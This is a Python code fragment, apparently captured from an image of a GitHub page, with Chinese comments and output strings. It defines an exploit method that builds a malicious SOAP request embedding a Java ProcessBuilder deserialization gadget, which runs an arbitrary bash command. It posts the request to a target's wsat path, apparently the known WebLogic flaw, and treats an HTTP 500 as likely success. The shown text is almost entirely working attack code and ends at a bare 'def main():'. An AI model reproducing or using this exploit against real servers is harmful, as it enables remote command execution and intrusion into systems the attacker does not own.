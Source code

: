 ```bash
  
    def execute_command(self, command, attack_path=None):
        """执行系统命令"""
        if attack_path is None:
            attack_path = self.wsat_path
  
        # 构造恶意SOAP载荷
        soap_payload = f"""<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>{command}</string>
                        </void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>"""
  
        attack_url = f"{self.target_url}{attack_path}"
  
        try:
            print(f"[*] 攻击目标: {attack_url}")
            print(f"[*] 执行命令: {command}")
  
            response = self.session.post(
                attack_url,
                data=soap_payload,
                headers=self.headers,
                timeout=15
            )
  
            print(f"[+] HTTP状态码: {response.status_code}")
            print(f"[+] 响应长度: {len(response.text)} 字节")
  
            if response.status_code == 500:
                print("[+] 攻击可能成功 (HTTP 500通常表示反序列化触发)")
                return True
            elif response.status_code == 200:
                print("[+] 请求被处理 (需要进一步验证)")
                return True
            else:
                print(f"[-] 攻击失败，状态码: {response.status_code}")
                return False
    
        except Exception as e:
            print(f"[-] 攻击执行失败: {e}")
            return False

def main():
```